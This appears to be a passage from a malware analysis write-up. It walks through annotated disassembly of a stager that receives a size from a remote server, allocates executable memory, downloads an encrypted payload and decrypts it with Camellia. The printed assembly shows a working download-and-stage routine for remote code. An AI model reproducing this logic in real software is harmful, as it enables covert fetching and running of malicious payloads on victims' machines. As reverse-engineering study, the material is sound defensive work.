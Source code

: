 ```
```

During the dynamic analysis, the `recv` buffer stayed desperately empty. However, I speculate the server should answer with the data it received from the `send` and encrypted on its side. If the server answer match the data encrypted on the client side, it means both are in possession of the encryption key. 
 
If the data match, the malware receive 4 more bytes from the server:

```
.data:004008DE      push    4   ; size
.data:004008E0      lea     eax, [ebp+WSADATA.lpVendorInfo+2]
.data:004008E3      push    eax             ; output to recv 4 bytes
.data:004008E4      push    [ebp+socket]
.data:004008E7      push    0               ; 0 = recv
.data:004008E9      push    esi             ; base buffer 1
.data:004008EA      call    [esi+BUFFER_1.ptr_sub_4009d3_NetworkSendOrRecv]
```

It appears these 4 bytes are a size, and are used in a following call to `VirtualAlloc()`:

```
.data:004008F4      push    PAGE_EXECUTE_READWRITE   ; RWX FTW
.data:004008F6      push    MEM_COMMIT
.data:004008FB      push    [ebp+WSADATA.lpVendorInfo+2] ; data received=size to alloc
.data:004008FE      push    0
.data:00400900      call    [esi+BUFFER_1.addr_VirtualAlloc]
.data:00400903      mov     edi, eax    ; future payload
```

Without surprise now, the allocated buffer is used to download additional data:

```
.data:00400905      push    [ebp+WSADATA.lpVendorInfo+2] ; size of download
.data:00400908      push    eax             ; download data to heap
.data:00400909      push    [ebp+socket]
.data:0040090C      push    0                ; recv
.data:0040090E      push    esi              ; base buffer 1
.data:0040090F      call    [esi+BUFFER_1.ptr_sub_4009d3_NetworkSendOrRecv]
```

Downloaded data are decrypted with `CamelliaDecrypt()`:

```
.data:00400926      push    edi     ; save
.data:00400927      mov     ecx, [ebp+WSADATA.lpVendorInfo+2] ; payload size
.data:0040092A loop_decrypt:
.data:0040092A      push    esi
.data:0040092B      lea     eax, [esi+BUFFER_1.camellia]
.data:00400931      push    eax
.data:00400932      push    edi
.data:00400933      push    edi     ; downloaded payload
.data:00400934      call    [esi+BUFFER_1.ptr_sub_400de0_CamelliaDecrypt] ; 0x400de0
.data:0040093A      add     edi, 10h
.data:0040093D      sub     ecx, 10h
.data:00400940      jnz     short loop_decrypt
.data:00400942      pop     edi     ; restore
```
